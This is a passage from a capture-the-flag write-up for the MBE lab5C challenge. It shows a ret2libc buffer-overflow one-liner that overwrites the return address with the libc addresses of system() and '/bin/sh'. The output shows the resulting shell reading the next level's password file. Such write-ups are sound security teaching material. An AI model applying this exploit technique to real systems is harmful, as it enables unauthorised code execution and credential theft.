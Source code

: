 The main advantage of this technique is we won't need to play with the offset of the return address. The exploit should work right away.

```bash
lab5C@warzone:/levels/lab05$ (python -c "print(156 * 'A' + '\x90\x31\xe6\xb7' + 'JUNK' + '\x24\x3a\xf8\xb7')"; cat -) | ./lab5C
I included libc for you...
Can you ROP to system()?
whoami
lab5B
cat /home/lab5B/.pass
s0m3tim3s_r3t2libC_1s_3n0ugh
```

Easy, right? You can go to the next [challenge](/writeups/mbe/lab5b/).